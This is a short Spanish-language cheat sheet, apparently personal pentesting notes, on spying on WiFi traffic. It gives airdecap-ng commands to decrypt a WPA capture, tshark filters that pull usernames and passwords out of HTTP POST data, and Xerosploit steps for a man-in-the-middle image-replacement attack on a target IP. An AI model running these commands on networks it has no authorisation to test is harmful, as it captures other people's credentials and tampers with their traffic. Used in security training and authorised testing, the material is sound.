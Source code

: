 # Técnica de espionaje en la red Wifi 

Tags: #Airdecap #WPA/WPA2 #Xerosploit 

##  Airdecap 

```bash 
❯ aidecap-ng -e <AP> -p 12345676 Captura.cap 
	# e = Nombre del AP
	# p = Password
# Esta herramineta te desencypta paquetes WPA y te genera un archivo con la 'Captura-dec.cap' 

❯ tshark -r Captura-dec.cap -Y "http" 2>/dev/null                                  # Filtramos el trafico http
	# Y = Agregar un filtro (http, dns)
❯ tshark -r Captura-dec.cap -Y "http.request.method==POST" 2>/dev/null             # Filtramos la data por POST
❯ tshark -r Captura-dec.cap -Y "http.request.method==POST" -Tjson 2>/dev/null      # Filtramos la data y lo miramos en Json
❯ tshark -r Captura-dec.cap -Y "http.request.method==POST" -Tfields -e http.file_data 2>/dev/null    # Filtramos por data que contenga un usuario y una passwd 
```

## Xerosploit 

* [Xerosploit](https://github.com/LionSec/xerosploit)
* [Hos to use Xerosploit](https://sospedia.net/man-in-the-middle-con-xerosploit/#:~:text=La%20herramienta%20Xerosploit%20es%20un,de%20nuestro%20equipo%20al%20router.)

```bash 
1. Una vez instalada podemos ejecutarla de la siguiente manera:

❯ python3 xerosploit.py     # Ejecutamos la herramienta 
	❯ scan                 # Ejecutamos un escaneo de la red para identificar los distintos activos 
	❯ 192.168.1.11         # colocamos la IP target 
	❯ help                 # Observamos el panel de ayuda de los diferentes modulos 
	❯ replace              # Este modulo reemplaza todas las imagenes con tu propia imagen 
	❯ run                  # Ejecutamos el comando o modulo anterior 
	❯ /home/kali/Desktop/image.png      # Ruta absoluta de la imagen a colocar 
```